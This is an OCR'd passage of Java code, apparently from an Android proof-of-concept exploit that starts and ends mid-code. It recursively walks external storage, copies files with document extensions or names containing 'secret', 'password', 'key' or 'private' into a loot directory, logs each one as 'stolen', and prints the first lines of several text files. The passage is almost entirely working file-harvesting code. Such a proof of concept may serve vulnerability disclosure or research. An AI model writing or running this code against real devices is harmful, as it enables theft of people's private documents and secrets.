 ```java
        Log.i("PoC", "traversing: " + sd.getAbsolutePath());  
        int n = copyRecursive(sd, lootDir, sd.getAbsolutePath());  
        Log.i("PoC", "copied " + n + " files into " + lootDir.getAbsolutePath());  
  
        previewTxts(lootDir);  
    }  
  
    private int copyRecursive(File start, File dstRoot, String rootPath) {  
        int count = 0;  
        Deque<File> stack = new ArrayDeque<>();  
        stack.push(start);  
  
        while (!stack.isEmpty()) {  
            File cur = stack.pop();  
            try {  
                if (cur.isDirectory()) {  
                    File[] kids = cur.listFiles();  
                    if (kids != null && kids.length < 1000) {  
                        Collections.addAll(stack, kids);  
                    }  
                } else if (isInteresting(cur)) {  
                    String rel = cur.getAbsolutePath().substring(rootPath.length());  
                    if (rel.startsWith("/")) rel = rel.substring(1);  
                    File dst = new File(dstRoot, rel);  
                    dst.getParentFile().mkdirs();  
  
                    try (InputStream in = new FileInputStream(cur);  
                         OutputStream out = new FileOutputStream(dst)) {  
                        in.transferTo(out);  
                        Log.i("PoC", "stolen: " + cur.getName());  
                        count++;  
                    } catch (IOException e) {  
                        Log.w("PoC", "copy failed: " + cur.getName());  
                    }  
                }            } catch (SecurityException ignored) {}  
        }        return count;  
    }  
  
    // just for poc examples  
    private boolean isInteresting(File f) {  
        if (f == null || !f.exists() || f.length() == 0) return false;  
        if (f.length() > 10 * 1024 * 1024) return false;  
        String n = f.getName().toLowerCase();  
        return n.endsWith(".txt") || n.endsWith(".pdf") ||  
                n.endsWith(".doc") || n.endsWith(".docx") ||  
                n.contains("secret") || n.contains("password") ||  
                n.contains("key") || n.contains("private");  
    }  
  
    private void previewTxts(File dir) {  
        List<File> txtFiles = listTxt(dir);  
        int shown = 0;  
        for (File f : txtFiles) {  
            if (shown >= 3) break;  
            Log.i("PoC", "=== " + f.getName() + " ===");  
            try (BufferedReader br = new BufferedReader(new FileReader(f))) {  
                for (int i = 0; i < 8; i++) {  
                    String l = br.readLine();  
                    if (l == null) break;  
                    Log.i("PoC", "   " + l);  
                }  
            } catch (IOException ignored) {}  
            Log.i("PoC", "=== end ===");  
```